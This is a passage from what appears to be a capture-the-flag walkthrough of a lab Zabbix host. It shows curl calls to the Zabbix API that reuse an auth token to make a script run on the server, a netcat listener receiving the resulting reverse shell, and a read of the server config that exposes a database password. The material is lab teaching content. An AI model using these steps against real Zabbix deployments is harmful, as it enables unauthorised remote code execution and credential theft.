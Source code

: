 
It dies quickly, but I can fix that like I did in the previous section.

### Path 3 - Admin Creds on Zabbix to GUI

#### Shell on Zabbix

This time, I’ll get a shell on Zabbix by changing the `execute_on` parameter
to 1 in the script I was using to get a shell in the first path:

    
    
    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.update", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{"scriptid": 4, "execute_on": 1}}' | jq -c .
    {"jsonrpc": "2.0","result": {"scriptids": [4]},"id": 1}
    
    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.execute", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{"hostid": "10106", "scriptid": 4}}' | jq . 
    

I get a shell, in the Zabbix container (this one is stable on its own):

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.108.
    Ncat: Connection from 10.10.10.108:36370.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=103(zabbix) gid=104(zabbix) groups=104(zabbix)
    $ hostname
    8e6232f363e0
    

#### Container Enumeration

Looking around this container, there isn’t much to be found. The `/home`
directory is empty. Web root just has the default Ubuntu page.

If I go check out the Zabbix config, I’ll find something interesting (using
two `greps`, the first to remove lines starting with `#`, and the second to
remove empty lines:

    
    
    $ cat /etc/zabbix/zabbix_server.conf | grep -Ev "^#" | grep .
    LogFile=/var/log/zabbix/zabbix_server.log
    LogFileSize=0
    DebugLevel=0
    PidFile=/var/run/zabbix/zabbix_server.pid
    DBName=zabbixdb
    DBUser=zabbix
    DBPassword=f.YMeMd$pTbpY3-449
    Timeout=4
    AlertScriptsPath=/usr/lib/zabbix/alertscripts
    ExternalScripts=/usr/lib/zabbix/externalscripts
    FpingLocation=/usr/bin/fping
    Fping6Location=/usr/bin/fping6
    LogSlowQueries=3000
    